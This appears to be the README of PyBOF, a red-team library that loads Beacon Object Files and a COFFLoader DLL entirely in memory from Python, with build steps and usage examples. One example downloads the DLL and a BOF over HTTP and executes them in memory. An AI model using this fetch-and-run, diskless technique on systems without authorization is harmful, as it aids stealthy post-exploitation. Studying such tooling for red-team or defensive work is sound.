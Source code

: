 # `PyBOF`
## Run Beacon Object files through python

in-memory loading and execution of BOFs

`PyBOF` enables Python3 to load Beacon Object Files via bytes and execute a target BOF function in a Python interpreter

## New in this branch
### Based on the research by tishina, I have integrated pythonmemorymodule (naksyn) for allowing loading of the COFFLoader from memory

## Basic Usage

### The run function has now been wrapped in a class for persisting COFFLoader function references. Because of this it must now be accessed the following way.
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
```

### Once bof.BOF has been initialized it's run function runs exactly the same as the old run function
#### Run a simple BOF with no required arguments
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data)
```

### Pass a raw string argument into BOF
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data, args=["foo"], raw=True)
# Raw cannot be used with function kwarg
```

### Pass packed/formatted arguments into BOF
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data, args=[r"c:\users"], format="w")
```

## Practical example of execution
```python
import bof
from urllib.request import urlopen
coffldr = urlopen('http://mysite/path/to/COFFLoader.dll').read()
runner = bof.BOF(coffldr)
data = urlopen("https://github.com/trustedsec/CS-Situational-Awareness-BOF/raw/master/SA/dir/dir.x64.o").read()
runner.run(data, args=[r"c:\users"], format="w")
```

## Args/Kwargs
There are several args that can be used with run function from PyBOFs bof.BOF class, they are described in more detail below

### data
Mandatory first positional argument which must be a byte object which contains the raw contents of a BOF

### args
Optional keyword arg which is a list of arguments to pass into the target BOF function

### function
Optional keyword arg which is the string formatted name of target function to execute from the supplied BOF, this defaults to `go`

### format (NOTICE - These have recently been updated)
Optional keyword arg is a string, which informs the BOF argument packer of the argument types as they are packed into the buffer. This is similar to the format arg from `struct.pack`. The only valid format options are as follows:\
`i` for integer\
`s` for short\
`z` for string\
`b` for binary\
`Z` for wide

At least one format type must be supplied for each arg in the args list. This keyword arg cannot be used in conjunction with `raw`

### raw
Optional keyword arg which is a boolean that passes args as a space-joined string without packing it instead of attempting to pack formatted args for the BOF function. This keyword arg cannot be used in conjunction with `format`

## Building
Clone this repo

```cmd
git clone https://github.com/rkbennett/pybof.git
```

Build the COFFLoader dll (mingw in this example)
```cmd
cd pybof\COFFLoader\source
x86_64-w64-mingw32-gcc-12.2.0.exe -shared -Wall -DBUILD_DLL COFFLoader.c beacon_compatibility.c APIResolve.c -o COFFLoader.x64.dll
```

Place the COFFLoader dll in a location you can access

Change directory to parent of bof directory, import and have fun
```cmd
cd ..\..\
python
>>> import bof
>>> from urllib.request import urlopen
>>> coffldr = urlopen('http://mysite/path/to/COFFLoader.dll').read()
>>> runner = bof.BOF(coffldr)
>>> data = urlopen("https://github.com/trustedsec/CS-Situational-Awareness-BOF/raw/master/SA/dir/dir.x64.o").read()
>>> runner.run(data, args=[r"c:\users"], format="w")
```

## Gotchas
If a BOF function does not return a value, I raise a warning alerting the user to the fact nothing was returned. I assume this is likely not the intended outcome of an execution, but didn't want to throw hard errors. `If you run a BOF function and receive the no output warning, keep in mind that your args formatting may need defined or may be defined incorrectly` which can cause this issue (specifically using string instead of wide)

## Special Thanks
* [natesubra](https://github.com/natesubra) - For answering my random questions
* [trustedsec](https://github.com/trustedsec) - For [COFFLoader](https://github.com/trustedsec/COFFLoader) (The real MVP)
* [naksyn](https://github.com/naksyn) - For [pythonmemorymodule](https://github.com/naksyn/PythonMemoryModule) (The other MVP)
* [zimnyaa](https://github.com/zimnyaa) - For the initial pythonmemorymodule integration legwork and pythonmemorymodule modifications to allow returning raw funciton addresses, also a great read here: https://tishina.in/execution/python-inmemory-bof